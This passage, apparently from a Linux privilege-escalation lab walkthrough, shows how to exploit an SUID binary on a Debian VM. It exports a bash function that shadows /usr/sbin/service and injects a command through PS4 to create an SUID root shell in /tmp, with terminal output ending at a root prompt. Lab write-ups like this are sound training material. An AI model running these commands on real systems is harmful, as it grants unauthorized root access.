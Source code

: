 ```


### 6. Abusing shell features #1

The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

```
strings /usr/local/bin/suid-env2
```
In Bash versions < 4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:

````/bin/bash --version````


```
user@debian:~/tools/privesc-scripts$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
user@debian:~/tools/privesc-scripts$ function /usr/sbin/service { /bin/bash -p; }
user@debian:~/tools/privesc-scripts$ export -f /usr/sbin/service
user@debian:~/tools/privesc-scripts$ /usr/local/bin/suid-env2
root@debian:~/tools/privesc-scripts# 
```





abusing shell features #2


Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.

Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

/tmp/rootbash -p

```